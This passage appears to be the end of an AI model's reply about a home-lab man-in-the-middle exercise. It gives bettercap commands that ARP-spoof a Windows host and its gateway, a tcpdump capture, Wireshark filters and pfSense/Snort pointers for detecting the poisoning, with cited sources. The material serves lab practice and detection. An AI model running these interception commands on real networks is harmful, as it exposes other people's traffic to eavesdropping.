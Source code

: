 * bettercap minimal:

```bash
sudo bettercap -iface <iface>
# then in session:
net.probe on
set arp.spoof.targets <WIN_IP>,<GW_IP>
arp.spoof on
```

* capture with tcpdump:

```bash
sudo tcpdump -i <iface> -w mitm.pcap host <WIN_IP> and host <GW_IP>
```

* Wireshark display filters:

```
arp
ip.addr==<WIN_IP> && ip.addr==<GW_IP>
http
```

* pfSense: Install Snort/Suricata via System > Package Manager; view ARP table at Diagnostics > ARP Table. ([Netgate Documentation][3])

---

If you want, I can:

* Produce a one-page printable checklist you can use in the lab (I can format as a markdown or PDF).
* Provide a sample Snort `arpspoof` preprocessor snippet and where to add it in pfSense (advanced Snort config) so that pfSense flags poisoning (I can draft the exact Snort lines). ([Netgate Forum][4])

Which of those would you like next?

[1]: https://www.bettercap.org/legacy/?utm_source=chatgpt.com "BetterCAP stable documentation"
[2]: https://docs.netgate.com/pfsense/en/latest/monitoring/status/arp.html?utm_source=chatgpt.com "ARP Table | pfSense Documentation"
[3]: https://docs.netgate.com/pfsense/en/latest/packages/snort/setup.html?utm_source=chatgpt.com "Configuring the Snort Package | pfSense Documentation"
[4]: https://forum.netgate.com/topic/17813/snort-and-arp-spoofing?utm_source=chatgpt.com "Snort and arp spoofing"
[5]: https://forum.netgate.com/topic/182399/enable-static-arp-entries-not-working-correctly?utm_source=chatgpt.com "Enable Static ARP entries not working correctly"
[6]: https://www.webasha.com/blog/understanding-man-in-the-middle-attacks-a-step-by-step-guide-using-bettercap?utm_source=chatgpt.com "Understanding Man-in-the-Middle Attacks: A Step-by-Step Guide ..."
